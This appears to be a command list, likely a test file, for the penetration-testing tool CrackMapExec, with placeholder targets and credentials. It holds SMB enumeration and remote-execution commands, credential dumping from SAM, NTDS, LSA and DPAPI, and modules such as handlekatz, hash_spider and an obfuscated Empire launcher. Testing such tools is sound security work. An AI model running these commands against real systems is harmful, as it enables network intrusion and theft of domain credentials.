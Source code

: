 # crackmapexec-commands



##### SMB<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS # need an extra space after this command due to regex<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --shares<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --shares --filter-shares READ WRITE<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --pass-pol<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --disks<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --groups<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --sessions<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --loggedon-users<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --users<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --computers<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --rid-brute<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --local-groups<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --gen-relay-list /tmp/relaylistOutputFilename.txt<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --local-auth<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --sam<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --ntds<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --lsa<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --dpapi<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -x whoami<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -X whoami<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -X whoami --obfs<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --wmi &quot;select Name from win32_computersystem&quot;<br>
##### SMB Modules<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -L<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M bh_owned<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M dfscoerce<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M drop-sc<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M drop-sc --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M drop-sc -o CLEANUP=True<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M empire_exec -o LISTENER=http-listener<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M empire_exec -o LISTENER=http-listener OBFUSCATE=True<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M enum_av<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M enum_dns<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M enum_dns --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M enum_dns -o DOMAIN=google.com<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M firefox<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M get_netconnections<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M gpp_autologin<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M gpp_password<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M handlekatz<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M handlekatz --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M handlekatz -o HANDLEKATZ_EXE_NAME=&quot;hk.exe&quot;<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M hash_spider<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M impersonate<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M install_elevated<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M ioxidresolver<br>
# currently hanging indefinitely - TODO: look into this<br>
#crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M keepass_discover<br>